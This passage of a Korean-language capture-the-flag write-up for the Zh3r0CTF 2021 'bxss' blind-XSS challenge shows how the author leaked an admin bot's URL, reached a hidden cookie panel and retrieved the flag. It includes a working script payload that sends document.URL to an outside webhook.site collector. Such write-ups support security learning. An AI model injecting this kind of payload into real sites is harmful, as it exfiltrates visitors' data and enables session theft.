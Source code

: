     위의 URL처럼 Set-cookie httponly로 인해 아무런 값이 담겨져 있지 않은것을 볼 수 있습니다.

    다른 정보도 가져오기 위해

    ```html
    <script>window.location.href='https://webhook.site/41d15f1d-def1-481f-b8d0-e0439ac68a34?url='+document.URL;</script>
    ```

    ![Untitled%206.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%206.png)

    `document.URL` 변수로 해당 admin의 URL을 체크하면 위의 사진 처럼

    [http://0.0.0.0:8080/Secret_admin_cookie_panel](http://0.0.0.0:8080/Secret_admin_cookie_panel) 해당 URL에서 접속하는것을 알 수 있습니다.

    해당 페이지에 접근하기 위해 [http://web.zh3r0.cf:3333/Secret_admin_cookie_panel](http://web.zh3r0.cf:3333/Secret_admin_cookie_panel) 해당 URL으로 들어가보면

    ![Untitled%207.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%207.png)

    이렇게 쿠키가 존재하는것을 볼 수 있는데 해당 쿠키를 가지고 있는 상태에서 [http://web.zh3r0.cf:3333/flag](http://web.zh3r0.cf:3333/flag) URL으로 접근을 해보면 

    ``/Secret_admincookie_panel``에서 얻은 쿠키로 인해 admin으로 인식하여 FLAG가 노출 됩니다.
    
    ![Untitled%208.png](\post-images\Zh3r0CTF\WEB\2021\bxss\Untitled%208.png)
